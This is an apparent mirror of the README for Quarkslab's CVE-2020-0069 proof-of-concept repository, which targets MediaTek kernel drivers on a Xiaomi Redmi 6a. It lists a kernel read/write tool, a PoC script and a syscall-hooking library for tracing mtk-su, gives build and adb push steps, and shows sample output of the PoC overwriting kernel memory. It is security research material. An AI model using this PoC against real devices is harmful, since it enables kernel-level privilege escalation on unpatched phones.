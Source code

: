 # CVE-2020-0069_poc

null

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/quarkslab](https://github.com/quarkslab) |
| Url      | [https://github.com/quarkslab/CVE-2020-0069_poc](https://github.com/quarkslab/CVE-2020-0069_poc)                                               |
| Stars    | 92                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>

* android* exploit* mediatek

</details>

## Readme

# Description

This repository contains the materials we used to investigate CVE-2020-0069 on a Xiaomi Redmi 6a (with a Mediatek SoC MT6762M).

There are three programs:

 - ``kernel_rw.c`` a C program allowing to read/write kernel memory
 - ``poc.sh`` a shell script 
 - ``syscall_hook.c`` a C library that can be used to trace the program ``mtk-su`` (tested on version 19)

## Build

To build the binaries:

```
$ ndk-build
```

Then push them on the device:

```bash
$ adb push poc.sh /data/local/tmp
$ adb push libs/armeabi-v7a/kernel_rw /data/local/tmp
$ adb push libs/armeabi-v7a/libsyscall_hook.so /data/local/tmp
```

## Usage

### CVE-2020-0069 PoC

```bash
$ uname -a
Linux localhost 4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
$ sh poc.sh
[+] Found Linux string at 0x4180bc00
[+] Found Linux string at 0x4180bea0
[+] Write the patched value
$ uname -a
minix  4.9.77+ #1 SMP PREEMPT Mon Jan 21 18:32:19 WIB 2019 armv7l
```

### To trace mtk-su

```bash
$ mkdir mtk-su
$ LD_PRELOAD=./syscall_hook.so ./mtk-su
alloc failed
alloc count=400 startPA=0x53df4000
uncatched ioctl 40e07803
exec command (num 0) ( blockSize=8040, readAddress.count=0 ) dumped into cmd-0
exec command (num 1) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-1
exec command (num 2) ( blockSize=3e0, readAddress.count=1e ) dumped into cmd-2
[...]
$ cat  mtksu/cmd-1
WFE to_wait=1, wait=1, to_update=1, update=0, event=1da
MOVE 40a68000 into reg 17
READ  address reg 17, data reg b
MOVE startPA+0 into reg 17
WRITE  address reg 17, data reg b
[...]
```



## Get the content

```
git clone https://github.com/quarkslab/CVE-2020-0069_poc
cd CVE-2020-0069_poc
```

{% embed url="https://github.com/quarkslab/CVE-2020-0069_poc" %}

<figure><img src="https://avatars.githubusercontent.com/u/3357711?v=4" alt=""><figcaption><p>quarkslab</p></figcaption></figure>
